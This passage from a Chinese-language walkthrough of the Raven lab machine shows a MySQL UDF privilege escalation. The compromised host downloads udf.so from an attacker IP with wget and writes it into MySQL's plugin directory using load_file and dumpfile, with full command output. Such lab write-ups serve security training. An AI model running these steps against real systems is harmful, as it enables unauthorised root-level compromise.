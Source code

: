 **7. 靶机下载UDF提权文件**

```bash
www-data@Raven:/var/www/html/wordpress$ wget http://192.168.231.129/udf.so
wget http://192.168.231.129/udf.so
converted 'http://192.168.231.129/udf.so' (ANSI_X3.4-1968) -> 'http://192.168.231.129/udf.so' (UTF-8)
--2023-11-04 18:46:28--  http://192.168.231.129/udf.so
Connecting to 192.168.231.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17240 (17K)
Saving to: 'udf.so'

udf.so              100%[=====================>]  16.84K  --.-KB/s   in 0s     

2023-11-04 18:46:28 (76.3 MB/s) - 'udf.so' saved [17240/17240]
```

**将UDF文件写入plugin文件夹**

```bash
mysql> use mysql
use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

# 创建数据表，字段line，类型为 blob（二进制大对象）
mysql> create table myfunc(line blob);
create table myfunc(line blob);
Query OK, 0 rows affected (0.00 sec)

# 将 /var/www/html/udf.so 文件的内容插入到数据表 myfunc 中
mysql> insert into myfunc values(load_file('/var/www/html/udf.so'));
insert into myfunc values(load_file('/var/www/html/udf.so'));
Query OK, 1 row affected (0.02 sec)

# 查看MySQL插件路径
mysql> show variables like '%plugin%';
show variables like '%plugin%';
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)

# 将数据表 myfunc 的内容写到 /usr/lib/mysql/plugin/udf.so 中
mysql> select * from myfunc into dumpfile '/usr/lib/mysql/plugin/udf.so';
select * from myfunc into dumpfile '/usr/lib/mysql/plugin/udf.so';
Query OK, 1 row affected (0.01 sec)
```
